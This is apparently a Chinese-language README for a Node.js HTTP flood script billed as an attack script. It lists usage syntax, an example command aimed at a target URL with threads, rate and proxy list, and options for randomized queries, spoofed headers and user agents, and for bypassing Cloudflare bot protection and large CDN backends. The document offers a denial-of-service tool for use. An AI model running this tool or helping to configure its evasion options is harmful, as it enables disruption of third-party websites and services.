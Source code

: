 JS攻击脚本，改了一丁点东西，感谢原作者
-----------------------------------------------------
    使用方法:
      node ${process.argv[1]} <GET/POST/HEAD/OPTIONS> <目标地址> <持续时间> <线程数> <请求速率限制> <代理文件> --参数
      Eg:
      node ${process.argv[1]} GET "https://target.com?q=%RAND%" 120 16 90 proxy.txt --query 1 --delay 1 --bfm true --referer rand --postdata "user=f&pass=%RAND%" --debug --randrate --full --header "f:f" --ip 1.1.1.1:3128 --useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36" --useuatxt ua.txt
-----------------------------------------------------
    参数选项:
     --query 1/2/3 ~~~ 带 rand 的查询字符串，例如 1 - ?cf__chl_tk 2 - ?fwfwfwfw 3 - ?q=fwfwwffw
     --delay <1-1000> ~~~ 请求之间的延迟 1-100 毫秒（最佳）默认 1 毫秒
     --cookie "f=f" ~~~ 用于自定义 cookie - 还支持 %RAND% 的 cookie，例如：“bypassing=%RAND%”
     --bfm true/null ~~~ 如果需要，机器人战斗模式更改为 true，如果不需要则不使用
     --referer seturl / rand ~~~ 如果需要，使用自定义 referer 和 rand - 如果需要生成域名，例如：fwfwwfwfw.net
     --postdata "user=f&pass=%RAND%" ~~~ 如果您需要数据来发布请求方法格式“user=f&pass=f”
     --randrate ~~~ 随机化器速率 1 到 90 良好绕过速率
     --full ~~~ 此新功能仅用于攻击大型后端 ex amazon akamai 和其他... 支持 cf
     --http 1/2/mix ~~~ 新功能选择键入 http 1/2/mix（mix 1 & 2）
     --debug ~~~ 显示您的状态代码（可能低 rps 以使用更多资源）
     --header "f:f" or "f:f#f1:f1" ~~~ 如果需要，请使用自定义标头，用 # 分隔每个标头
     --legit ~~~ 此新功能用于攻击，具有完整合法标头，不适用于 cf
     --ip 代理ip:端口 ~~~ 使用自定义 IP 代理
     --useragent 你的UA ~~~ 使用自定义 useragent
     --useuatxt ua.txt ~~~ 使用自定义UA文件 ua.txt
